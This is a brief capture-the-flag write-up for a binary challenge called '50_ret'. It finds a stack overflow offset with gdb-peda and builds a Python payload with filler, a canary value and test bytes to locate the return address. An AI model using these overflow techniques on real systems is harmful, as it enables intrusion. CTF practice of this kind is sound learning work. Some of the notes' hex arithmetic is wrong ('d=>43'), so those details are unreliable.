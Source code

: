 # 50_ret

nc ctf.hackucf.org 9003




find offset
```
gdb-peda$ pattern offset 'AAdAA3'
AAdAA3 found at offset: 64
```
we found the offset now we need to find out
```
canary = "\xef\xbe\xad\xde"
testFiller = 'A'*5 + 'B'*5 + 'C'*5 + 'D' *5 + 'C'*5
offset = 64
filler ='A'*offset
payload = filler + canary + testFiller
print payload
```
`testFiller` will be used to find out the offset to the returnAddress

running the input from script will output this in gdp

```
Invalid $PC address: 0x44434343
```
reminder A in asci is 41, B =>42, C=>43, d=>43

so the extra is 5+5+2 with the two being the not being outputed from the 5 C's
